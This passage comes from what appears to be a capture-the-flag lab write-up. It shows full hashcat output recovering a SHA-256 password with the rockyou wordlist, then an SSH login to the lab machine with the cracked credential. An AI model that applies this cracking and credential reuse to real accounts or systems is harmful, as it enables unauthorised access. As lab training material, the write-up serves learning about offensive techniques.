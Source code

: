 ```
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 327 MB

Dictionary cache hit:
* Filename..: ..\wordlists\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124

Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA2-256
Hash.Target......: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218...3efd14
Time.Started.....: Fri Feb 19 08:31:10 2021 (1 sec)
Time.Estimated...: Fri Feb 19 08:31:11 2021 (0 secs)
Guess.Base.......: File (..\wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 21318.5 kH/s (5.41ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2949120/14344385 (20.56%)
Rejected.........: 0/2949120 (0.00%)
Restore.Point....: 1966080/14344385 (13.71%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: bragg426 -> vaireva
Hardware.Mon.#1..: Temp: 35c Fan:  0% Util:  5% Core:1759MHz Mem:3802MHz Bus:16

Started: Fri Feb 19 08:31:08 2021
Stopped: Fri Feb 19 08:31:11 2021
PS D:\Google Drive\Cyber Security\Utils\hashcat-6.1.1>
```

So this shows that the password is `videogamer124`


## Using Found Credentials with SSH

We will now try the found credentials to log in using SSH and they work.

```
(dspo6㉿kali)[~/pentest/boxes/thm/game_zone]$ ssh agent47@10.10.108.67
The authenticity of host '10.10.108.67 (10.10.108.67)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.108.67' (ECDSA) to the list of known hosts.
agent47@10.10.108.67's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ 
```
